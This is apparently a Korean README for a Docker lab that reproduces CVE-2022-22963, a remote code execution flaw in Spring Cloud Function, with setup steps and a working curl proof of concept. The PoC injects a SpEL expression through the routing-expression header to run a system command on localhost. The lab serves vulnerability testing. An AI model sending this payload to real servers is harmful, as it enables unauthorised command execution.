

# CVE-2022-22963 (Spring Cloud Function RCE)


## 1. 요약
CVE-2022-22963은 Spring Cloud Function 3.1.6 이하 버전에서 발생하는 원격 코드 실행(RCE) 취약점입니다.
공격자는 HTTP 요청의 `spring.cloud.function.routing-expression` 헤더를 조작하여 서버에서 임의의 시스템 명령어를 실행합니다.


## 2. 환경 구성 및 실행
1. `docker-compose up -d` 명령어로 테스트트 환경 실행
2. `localhost:8080/functionRouter`에 접속해서 서버가 실행되고 있는지 확인
3. curl 명령어로 RCE PoC 공격
4. 도커 컨테이너의 /tmp 디렉토리에서 pwned 파일 확인


## 3. 취약점 검증 (PoC)
- PoC 방식: HTTP POST 요청에 조작된 헤더를 삽입하여 시스템 명령어 실행 시도

**PoC 명령어:**
```bash
curl -X POST "http://localhost:8080/functionRouter" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/pwned\")" -d "test"
```


## 4. 결과



